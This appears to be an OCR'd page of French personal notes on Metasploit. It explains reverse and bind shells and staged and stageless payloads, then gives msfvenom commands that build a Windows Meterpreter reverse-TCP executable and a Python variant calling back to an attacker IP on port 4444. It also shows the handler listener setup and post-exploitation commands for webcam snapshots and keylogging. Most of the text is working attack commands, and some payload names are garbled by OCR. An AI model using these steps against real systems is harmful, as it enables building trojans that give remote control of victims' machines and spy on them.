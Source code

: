 - [bind_tcp]
attacker- [open the way for me in the port 4444]- victim - 
after execution - 
attacker - [port 4444] - victim - 


- Staged Payload  Le staged payload classique de Metasploit est  windowsmeterpreterreverse_tcp. Ce type de payload est généralement envoyé sur la machine de la victime en deux parties. La première partie est un payload primaire (stage 0) qui crée une connexion entre la machine de la victime à celle de l’attaquant. Un deuxième payload (stage 1) contenant l’exploit est ensuite envoyé à travers la connexion créée, puis exécuté sur la machine de la victime.
- Stageless Payload  L’équivalent du staged payload classique présenté plus haut (windowsmeterpreterreverse_tcp) dans la catégorie des stageless est windowsmeterpreter_reverse_tcp. Dans cette catégorie, le payload est envoyé entièrement sur la machine de la victime. Celui-ci contient tout ce qui est nécessaire pour obtenir un reverse shell vers la machine de l’attaquant. Aucun transfert supplémentaire à partir de la machine de l’attaquant n’est nécessaire.




Creer malware avec metasploit (etre en root)
```
msfvenom –p windowsmeterpreter_reverse_tcp –f exe –a x86 –platform windows  LHOST 192.168.174.192 LPORT 4444 –o santy.exe
msfvenom --payload pythonmeterpreterreverse_tcp LHOST=... LPORT=4444  rev_tcp_4444.py
## attention ordre arguments important
#-p prépare le payload.
#-f exe indique que le type de fichier, ou l’extension de fichier sera exe (windows)
#-a x86 indique l’architecture système. x86 est utilisée dans les systèmes 32 bits, même si mon système est en 64 bits, on peut faire tourner un programme 32 bits sur un système 64 bits.
#–platform windows indique que ce virus est pour Windows.
#-o est le chemin d’enregistrement du fichier, avec son nom. Comme je veux l’enregistrer dans le dossier root, je ne précise que son nom.
##Le fichier sera sauvegardé dans le répertoire de travail actuel
```
```
#Before executing this file in the target computer, we need to start the multi-handler to listen for incoming connections
use mulithandler #use permet de sélectionner un module à utiliser (back permet de sortir de ce module)
#A module is a piece of software that the Metasploit Framework uses to perform a task, such as exploiting or scanning a target. A module can be an exploit module, auxiliary module, or post-exploitation module.
#multihandler  Ce module est un stub qui fournit toutes les fonctionnalités du système de charge utile Metasploit aux exploits qui ont été lancés en dehors du framework
```

```
set PAYLOAD windowsmeterpreterreverse_tcp #meme payload que vous avez utilisé pour créer le malware
set LHOST 192.168.174.129
set LPORT 4444
exploit #ou run c la meme chose
#Quand la victime lance ce programme, vous allez voir que Metasploit et Meterpreter s’ouvriront
```
```
webcam_snap
start keyscan_start
keyscan_stop
```
